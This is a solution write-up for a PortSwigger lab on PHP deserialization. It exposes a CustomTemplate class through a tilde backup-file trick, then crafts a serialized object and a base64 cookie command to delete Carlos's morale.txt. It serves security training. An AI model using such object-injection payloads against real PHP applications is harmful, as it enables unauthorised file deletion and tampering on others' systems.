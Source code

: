 # URL
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php
# Objective
This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.
You can log in to your own account using the following credentials:`wiener:peter` 
# Method of Solve
1) Look at the HTTP source for the landing page of the web app. It references an endpoint `/libs/CustomTemplate.php`
2) When we navigate to this endpoint, we don't see anything, but some apps allow us to use a tilde at the end of the file name to see the PHP file contents
3) According to the code, the app deletes any file defined in the $lock_file_path variable:
```
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
So we can define the file we're supposed to delete as the $lock_file_path like this:
```
O:14:"CustomTemplate":2:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
So we'll add this to our current Cookie contents and Base64 encode it with the following:
```
echo -n 'a:2:{i:0;O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"g9r8kznko8p7yroc97n5n4omqblbplxc";}i:1;O:14:"CustomTemplate":2:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}}' | base64 -w 0
```
4) Take the output of the previous command and replace the current cookie
